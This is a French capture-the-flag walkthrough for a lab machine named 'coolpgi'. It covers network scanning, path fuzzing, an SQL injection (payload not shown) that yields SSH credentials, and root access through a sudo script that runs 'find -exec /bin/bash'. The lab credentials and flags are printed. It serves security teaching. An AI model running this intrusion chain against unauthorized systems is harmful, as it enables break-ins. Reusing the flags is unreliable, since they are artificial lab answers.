








## 1. Découverte de la machine sur le réseau

```bash
arp -a
```

```
? (172.20.10.1) at aa:fe:9d:e6:1c:64 [ether] on wlan0
? (172.20.10.2) at f8:fe:5e:cd:27:92 [ether] on wlan0
? (172.20.10.13) at f8:fe:5e:cd:27:92 [ether] on wlan0
```

En croisant l'IP locale et celle du serveur hébergeant la VM, la cible est **172.20.10.2**.

---

## 2. Découverte des services

```bash
nmap -sV --top-ports 10000 -T5 172.20.10.2
```

```
22/tcp open  ssh     OpenSSH 10.0p2 Debian 7 (protocol 2.0)
80/tcp open  http    nginx
```

Un serveur **nginx** est accessible sur le port 80.

---

## 3. Analyse de l'application web



La page d'accueil présente un simple formulaire de connexion. L'inspection du code source révèle deux informations importantes :



- Un commentaire HTML : `<!-- onboarding: ask IT for access -->`
- Un nom de domaine dans le footer : `coolpgi.hmv`

---

## 4. Configuration DNS locale

```bash
echo "172.20.10.2 coolpgi.hmv" >> /etc/hosts
```

Vérification :

```bash
curl -I coolpgi.hmv
```

```
HTTP/1.1 200 OK
Server: nginx
Date: Tue, 03 Feb 2026 22:03:45 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 1323
Connection: keep-alive
```

Le domaine répond correctement. ✅

---

## 5. Énumération des chemins

On utilise `ffuf` avec le flag `-fs 1323` pour filtrer les redirections vers l'index (taille de la page : 1323 octets) :

```bash
ffuf -u http://coolpgi.hmv/FUZZ -w /usr/share/wordlists/dirb/common.txt -fs 1323
```

Résultats :

| Chemin | Statut | Taille |
|---|---|---|
| `/login` | 302 | 189 |
| `/panel` | 200 | 1273 |
| `/search` | 200 | 944 |

---

## 6. Analyse des pages découvertes



La page `/search` expose un **outil de recherche d'utilisateurs** avec affichage des résultats :



C'est une surface d'attaque idéale pour tester une injection SQL.

---

## 7. Injection SQL



Un payload basique confirme la vulnérabilité. Après plusieurs tests et itérations :



On extrait les données de la base et on récupère un utilisateur SSH :



| Champ | Valeur |
|---|---|
| Utilisateur | `cool` |
| Mot de passe | `ThisIsMyPGMyAdmin` |

---

## 8. Accès SSH — Flag utilisateur

```bash
ssh cool@coolpgi.hmv
# Password: ThisIsMyPGMyAdmin
```



```bash
cool@coolpgi:~$ cat user.txt
HMV{coolpg_user_c947e9399834}
```

Flag utilisateur obtenu ! 🎉

---

## 9. Élévation de privilèges

### Vérification des droits sudo

```bash
sudo -l
```

```
User cool may run the following commands on coolpgi:
    (ALL) NOPASSWD: /usr/local/bin/runlogs-find.sh
```

On peut exécuter `runlogs-find.sh` sans mot de passe. Lecture du script :

```bash
cat /usr/local/bin/runlogs-find.sh
```

```sh
#!/bin/sh
exec /usr/bin/find /home/cool -maxdepth 3 -type f -name "*.log" -exec /bin/bash \; -quit
```

Le script utilise `find` avec l'action `-exec /bin/bash`, ce qui **spawn un shell** à la correspondance d'un fichier `.log`. Il suffit donc qu'un fichier `.log` existe dans `/home/cool` pour que le script lance un bash — en root puisqu'il tourne via sudo.

```bash
cool@coolpgi:~$ sudo /usr/local/bin/runlogs-find.sh
root@coolpgi:/home/cool#
```

### Flag root

```bash
root@coolpgi:~# cat root.txt
HMV{coolpg_root_de6eac329255}
```

Flag root obtenu ! 🎉

---

> **Leçon retenue :** Un script `sudo` utilisant `find -exec /bin/bash` sans contraintes supplémentaires est une élévation de privilèges triviale. Toujours auditer les commandes autorisées via `sudo -l` et s'assurer qu'aucune action ne permet de lancer un shell arbitraire.